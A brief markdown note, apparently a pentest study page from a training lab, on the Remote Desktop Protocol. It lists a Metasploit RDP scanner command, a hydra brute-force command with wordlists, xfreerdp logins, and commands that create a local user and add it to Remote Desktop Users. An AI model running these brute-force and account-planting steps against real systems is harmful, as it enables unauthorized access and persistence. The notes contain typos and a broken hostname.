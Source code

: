 ```yaml
---
title: 'RDP'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
slug: rdp/vuln
---
```


### Information

- The Remote Dektop Protocol is propriertary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a windows system.

- Uses 3389 TCP port by default, .

- Requires authentication.

- Can perform a brute-force attack

```bash
# Detect if that port its really a rdp.
$ mfsconsole use auxiliary/scanner/rdp/rdp_scanner

# Brute force.
$ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/linux_pass.txt rdp://target -s 3389

$ xfreerdp /u:administrator /p:password123  /v:ta rget:port
```

crear usuario rdp

```bash
net user guest_1 guestpwd /add
net localgroup "Remote Desktop Users" guest_1 /add
net user
##

xfreerdp /u:guest_1 /p:guestpwd /v:demo.ine.local

```
